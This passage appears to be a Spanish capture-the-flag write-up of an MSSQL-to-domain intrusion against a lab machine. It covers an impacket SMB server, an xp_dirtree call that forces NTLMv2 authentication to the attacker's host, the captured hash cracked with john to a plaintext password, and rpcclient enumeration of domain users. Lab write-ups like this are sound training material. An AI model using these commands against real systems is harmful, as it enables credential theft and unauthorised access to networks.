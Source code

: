 ## Intrusión
Nos creamos un servidor SMB y le damos soporte para `SMBv2`

```bash
❯ impacket-smbserver pwned  . -smb2support
Impacket v0.10.1.dev1+20230120.195338.34229464 - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Usando `xp_dirtree` realizamos una petición a nuestro servidor para capturar el hash `NTLMv2`.
```bash
SQL> xp_dirtree '\\10.10.14.15\pwned'
subdirectory                                                                                                                                                                                                                                                      depth   
```

```bash
❯ impacket-smbserver pwned  . -smb2support
Impacket v0.10.1.dev1+20230120.195338.34229464 - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,65510)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:314ff337fa86f59b92de0736deb4049c:010100000000000080000d6d9166d901c8ab9cfbb6ab467600000000010010006d006a00500063004c00410049005900030010006d006a00500063004c0041004900590002001000780067006500580056004d007a00740004001000780067006500580056004d007a0074000700080080000d6d9166d90106000400020000000800300030000000000000000000000000300000119db20e63db55f605fba008935acc2ecdc9bceb177eedfc45245d776a2b79350a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310035000000000000000000
[*] Closing down connection (10.10.11.202,65510)
[*] Remaining connections []
```
Mediante Crack de Hash, obtenemos la contraseña.
```bash
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REGGIE1234ronnie (sql_svc)
1g 0:00:00:07 DONE (2023-04-03 21:07) 0.1303g/s 1395Kp/s 1395Kc/s 1395KC/s RENZOJAVIER..REDMAN69
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
Usando `rpcclient` podemos enumerar usuarios del dominio.
```bash
❯ rpcclient -U 'sql_svc' 10.10.11.202
Password for [WORKGROUP\sql_svc]:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[Tom.Henn] rid:[0x44f]
```
